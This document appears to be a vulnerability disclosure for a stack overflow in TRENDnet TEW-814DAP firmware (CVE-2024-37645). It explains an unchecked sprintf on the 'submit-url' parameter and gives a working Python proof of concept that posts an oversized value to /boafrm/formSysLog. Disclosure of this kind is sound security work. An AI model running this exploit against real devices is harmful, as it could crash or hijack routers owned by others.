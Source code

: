 # TRENDnet TEW-814DAP v1_(FW1.01B01) stack overflow  at /formSysLog

Product: TRENDnet TEW-814DAP Firmware Version: v1_(FW1.01B01)  

Manufacturer's website information：http://trendnet.com.cn/

Firmware download address ：[http://download.trendnet.com/](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37645

### Analysis

The decompiled code of function which read value of parameter "submit-url" and call send_redirect_perm function with the value as a parameter.

![image-20240613143120987](./image-20240613143120987.png)



![image-20240613143220527](./image-20240613143220527.png)

Parameter a2 is copied to buffer v14 through the sprintf function, but the length of parameter a2 is not checked.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240613143327610](./image-20240613143327610.png)

### POC



```python
import argparse, requests, sys

def get_cookie(base_url):
    return requests.get(base_url).headers.get('Set-Cookie')

def exploit(base_url, cookie):
    url = f"{base_url}/boafrm/formSysLog"
    data = {
        'wlanlogEnabled': 'ON',
        'logEnabled': 'ON',
        'nextPage': '1', 
        'rtLogEnabled': 'ON',
        'doslogEnabled': 'ON',
        'submit-url': 'A' * 1000
    }
    return requests.post(url, headers={'Cookie': cookie}, data=data, allow_redirects=False)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The server ip')
    args = parser.parse_args()
    base_url = f"http://{args.ip}"
    cookie = get_cookie(base_url)
    exploit(base_url, cookie)
```

